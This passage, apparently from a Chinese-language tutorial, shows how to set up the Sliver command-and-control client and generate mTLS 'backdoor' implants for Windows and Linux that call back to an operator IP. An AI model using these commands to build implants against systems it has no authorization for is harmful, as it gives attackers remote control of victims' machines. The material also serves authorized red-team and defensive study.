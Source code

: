 在client端的调试中，需要完成如下的指令：

```
chmod +x sliver-client_linux
./sliver-client_linux import /root/sliver/BTSEC_xx.xx.xx.xx.cfg
./sliver-client_linux
```

![image-20230201004833146](../../images//image-20230201004833146.png)



## 5.2 使用

### 5.2.1 生成backdoor

在sliver中，backdoor的模式分为mtls、http、https、dns四类，生成的指令结构为：

```
generate --type IP --save 路径 --os xxx
```

使用如下的指令可以生成对应的backdoor：

```
generate --mtls 172.16.0.2 --save /tmp --os Windows
generate --mtls 172.16.0.2 --save /tmp --os Linux
```
